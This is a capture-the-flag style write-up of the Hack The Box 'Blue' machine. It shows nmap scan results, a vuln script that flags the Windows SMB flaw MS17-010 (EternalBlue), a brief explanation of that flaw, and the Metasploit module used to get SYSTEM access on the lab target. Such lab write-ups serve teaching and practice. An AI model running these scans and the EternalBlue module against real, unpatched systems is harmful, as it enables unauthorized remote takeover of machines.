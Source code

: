 ```yaml
---
layout: PostSimple
date: 2020-03-08
title:     "Hack The Box - Blue"
tags: ['windows','easy','eternalblue']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/1.png)

We are going to pwn Blue from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/51](https://www.hackthebox.eu/home/machines/profile/51)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows 8.1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m33s, deviation: 1s, median: 1m32s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-08T16:52:23+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T16:52:25
|_  start_date: 2020-03-08T16:46:59

```

The name of the box is hint, it may be ``eternalblue`` exploit.

We can check that by running nmap script.
>nmap -A -p445 --script vuln 10.10.10.40

```
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```
So my guess is correct.
```
What Is EternalBlue?

EternalBlue is an exploit most likely developed by the NSA as a former zero-day. It was released in 2017 by the Shadow Brokers, a hacker group known for leaking tools and exploits used by the Equation Group, which has possible ties to the Tailored Access Operations unit of the NSA.

EternalBlue, also known as MS17-010, is a vulnerability in Microsoft's Server Message Block (SMB) protocol. SMB allows systems to share access to files, printers, and other resources on the network. The vulnerability is allowed to occur because earlier versions of SMB contain a flaw that lets an attacker establish a null session connection via anonymous login. An attacker can then send malformed packets and ultimately execute arbitrary commands on the target.
```

>https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue

>use exploit windows/smb/ms17_010_eternalblue

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/2.png)

After Some attempts it worked.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/3.png)[br/](br/)
I got Authority\System directly.

